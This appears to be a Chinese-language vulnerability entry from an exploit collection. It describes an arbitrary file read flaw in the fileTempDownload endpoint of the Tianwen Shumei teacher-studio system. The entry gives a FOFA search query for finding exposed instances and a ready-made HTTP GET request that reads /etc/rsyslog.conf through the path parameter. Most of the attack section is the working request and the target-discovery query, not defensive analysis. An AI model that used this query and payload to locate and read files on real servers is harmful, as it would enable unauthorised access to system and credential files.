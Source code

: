 # 天闻数媒名师工作室系统fileTempDownload任意文件读取

# 一、漏洞简介
天闻数媒名师工作室系统fileTempDownload接口存在任意文件读取漏洞

# 二、影响版本
+ 天闻数媒名师工作室系统

# 三、资产测绘
+ fofa`body="/static/js/bootstrap/bootstrap.css" && title="名师工作室"`

# 四、漏洞复现
```plain
GET /fileUploadAndDownload/fileTempDownload?path=/etc/rsyslog.conf HTTP/1.1
Host: 127.0.0.1:8080
```
